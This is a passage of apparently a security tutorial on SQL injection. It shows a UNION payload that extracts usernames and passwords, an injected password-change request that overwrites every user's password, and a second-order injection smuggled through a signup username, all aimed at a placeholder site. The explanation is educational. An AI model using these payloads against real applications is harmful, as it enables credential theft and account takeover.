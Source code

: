 This will be the new query where attacker can see username and password of all users,

```sql
SELECT Title, Body FROM Emails WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr' UNION SELECT Username, Password FROM Users;-- ;
```

Other than SELECT ,  other statements are also used in SQL Injection:
- UPDATE
- INSERT 
- DELETE 
- Etc

For example  a scenario where we can update our password,

`Normal scenario:`
```http
POST /change_password
Host: example.com
(POST request body)
new_password=password12345
```

This will be queried to:
```sql
UPDATE Users SET Password='password12345' WHERE Id = 2;
```

`Attacker's senario:`
```http
POST /change_password
Host: example.com
(POST request body)
new_password="password12345';--"
```

Will be changed to :

```sql
UPDATE Users SET Password='password12345';-- WHERE Id = 2;
```

Here id = 2 is commented out, therefore all passwords in the user table will be changed to "password 12345" in this way attacker can log in as any user.


###### Using Second-Order SQL Injections

The first order sql injection happens when the application uses the user input directly to the sql  query. 

The second order sql injection happens when, a user input is stored in the database and used unsafely in an sql query.

Example:

Here a user can specify username and password to create an account.

`Attacker:`
```http
POST /signup
Host: example.com
(POST request body)
username="test' UNION SELECT Username, Password FROM Users;--"&password=password123 
```
